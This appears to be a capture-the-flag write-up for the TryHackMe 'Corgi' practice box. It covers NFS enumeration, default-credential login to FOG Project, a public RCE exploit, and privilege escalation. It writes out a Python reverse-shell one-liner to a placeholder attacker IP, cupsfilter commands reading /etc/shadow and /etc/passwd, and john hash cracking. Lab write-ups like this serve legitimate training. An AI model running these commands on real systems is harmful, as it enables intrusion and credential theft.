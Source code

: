 # Corgi
Try this OSCP level practice box by JSON SEC at https://tryhackme.com/room/corgi

## nmap scan
The first thing we do on any vulnerable box is a nmap scan.

`nmap -sS -sC -p- <TARGET-IP>`
![nmap scan pt1](Images/nmap_1.png)
![nmap scan pt2](Images/nmap_2.png)

## NFS
From this scan we can see that nfs is installed on the server, let's use `showmount` to see if there are any shares we can mount to our system.

![showmount](Images/showmount.png)

looks like there are two shares we can mount, let's mount one of them and have a look around

![mount](Images/mount.png)

## FOG Project
After looking around we found this fog file, after some quick google searching we will find documentation for something called 'FOG project'

![FOG documentation](Images/FOG_1.png)

And going to `<TARGET-IP>/fog` takes us to a login page

![FOG login](Images/FOG_2.png)

Now that we have a login page we need some credentials. before we try anything else let's try and find some default creds on google.

![FOG default creds](Images/FOG_3.png)

Lucky for us these default credentials worked and we are now logged in to the FOG dashboard

![FOG dashboard](Images/FOG_4.png)

## RCE Exploit
Now that we have access to a dashboard let's have a look on exploit.db to see if there are any known exploits for the version of FOG that is installed.

![search on exploitdb](Images/exploit_1.png)

Lucky Break, there is a RCE exploit here https://www.exploit-db.com/exploits/49811

![exploit contents](Images/exploit_2.png)

Let's try and use this RCE exploit and test to see if we can run commands on the server before we try and gain access through a remote shell.

![before file upload](Images/exploit_3.png)
![after file upload](Images/exploit_4.png)

Running the hostname command to test if file upload worked

![testing RCE](Images/exploit_5.png)

## Reverse Shell & Privilege Escalation
Now that we have RCE let's get our reverse shell up and running

`python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER-IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'`
![getting reverse shell](Images/rev_shell_1.png)

And stabilise the shell

![stabilising reverse shell](Images/rev_shell_2.png)

now that we have a working and stable reverse shell, we need to be able to read the /etc/shadow and /etc/passwd files.
First let's find out what binaries we have access to with `find`

`find / -perm /4000 2>/dev/null`

![available binaries](Images/binaries.png)

We can see here that the account we are using can already use the sudo command. But because we dont have the password for the current user account, we need to find a way to read the /etc/shadow and /etc/passwd files so we can find either a password for the account we are using, or a password for another user.

After having a search on https://gtfobins.github.io/, we found that the cupsfilter binary has a File read vulnerability, and we can use this to read the /etc/shadow and /etc/passwd files

![result on GTFObins](Images/cupsfilter.png)

`cupsfilter -i application/octet-stream -m application/octet-stream /etc/passwd`
![reading the /etc/passwd file pt1](Images/passwd_1.png)
![reading the /etc/passwd file pt2](Images/passwd_2.png)

`cupsfilter -i application/octet-stream -m application/octet-stream /etc/shadow`
![reading the /etc/shadow file pt1](Images/shadow_1.png)
![reading the /etc/shadow file pt2](Images/shadow_2.png)

Let's copy the contents of the files onto our host computer, then use unshadow and johntheripper to get the passwords

`unshadow passwd.txt shadow.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt`

![cracking the hashes](Images/cracked.png)

So now we have a login, let's `su` into the new user and see what permissions they have.

![checking sudo -l](Images/sudo.png)

It looks like they can run any command, let's try to get into the root account and find the user and root hashes

![sudo su and user hash](Images/usr_hash.png)
![root hash](Images/root_hash.png)